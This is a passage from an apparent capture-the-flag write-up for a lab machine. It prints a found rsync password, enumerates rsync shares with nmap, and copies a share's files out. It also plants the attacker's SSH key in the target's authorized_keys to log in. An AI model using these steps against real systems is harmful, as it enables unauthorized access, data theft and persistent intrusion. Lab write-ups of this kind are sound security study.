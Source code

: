 ```
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```



We can enumerate rsync shares with this command:
```
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
```

We see that there is a `files` share

We can sync all files in this share to a folder on our machine using the password above

```
rsync -av rsync://rsync-connect@10.10.117.165/files /home/keez/boxes/thm/vulnet/internal 
```

We can see `user.txt`

---

we can use rsync to upload our `id_rsa.pub` to their `authorized_keys` list

```
rsync /home/keez/.ssh/id_rsa.pub rsync://rsync-connect@10.10.117.165/files/sys-internal/.ssh/authorized_keys
```

once that is done we can ssh in
```
ssh -i ~/.ssh/id_rsa sys-internal@10.10.117.165 
```

